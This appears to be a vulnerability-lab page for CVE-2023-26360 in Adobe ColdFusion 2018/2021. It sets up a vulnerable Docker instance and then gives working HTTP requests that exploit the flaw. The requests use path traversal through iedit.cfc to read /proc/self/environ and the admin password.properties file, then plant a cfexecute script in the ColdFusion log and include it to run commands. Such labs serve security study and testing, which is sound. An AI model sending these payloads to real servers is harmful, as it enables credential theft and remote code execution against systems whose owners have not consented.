



Adobe ColdFusion Local File Inclusion Leads to RCE (CVE-2023-26360)¶
Adobe ColdFusion is a commercial rapid web-application development computing platform created by J. J. Allaire in 1995.
Adobe ColdFusion versions 2018 Update 15 (and earlier) and 2021 Update 5 (and earlier) are affected by an Improper Access Control vulnerability that could result in local file inclusion and arbitrary code execution in the context of the current user.
References:
Vulnerable environment¶
Start a Adobe ColdFusion 2018.0.15:
docker compose up -d
After a few minutes wait, visit http://your-ip:8500/CFIDE/administrator/index.cfm with password vulhub, you can install the Adobe ColdFusion successfully.
Exploit¶
Simply send following request to server to download /proc/self/environ:
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 82
Content-Type: application/x-www-form-urlencoded
_variables={"_metadata":{"classname":"../../../../../../../../proc/self/environ"}}
Then you will find the base directory /opt/coldfusion/cfusion of Adobe ColdFusion:

Retrieve password by ../../../../../../../../opt/coldfusion/cfusion/lib/password.properties:

To exploit the arbitrary code execution issue, first send a request to the server containing a CFM script:
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 67
Content-Type: application/x-www-form-urlencoded
_variables=<cfexecute name='id' outputFile='/tmp/success' ></cfexecute>
Then, include the log file to execute the CFM script:
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 111
Content-Type: application/x-www-form-urlencoded
_variables={"_metadata":{"classname":"../../../../../../../../opt/coldfusion/cfusion/logs/coldfusion-out.log"}}
The id command is executed and output to /tmp/success:
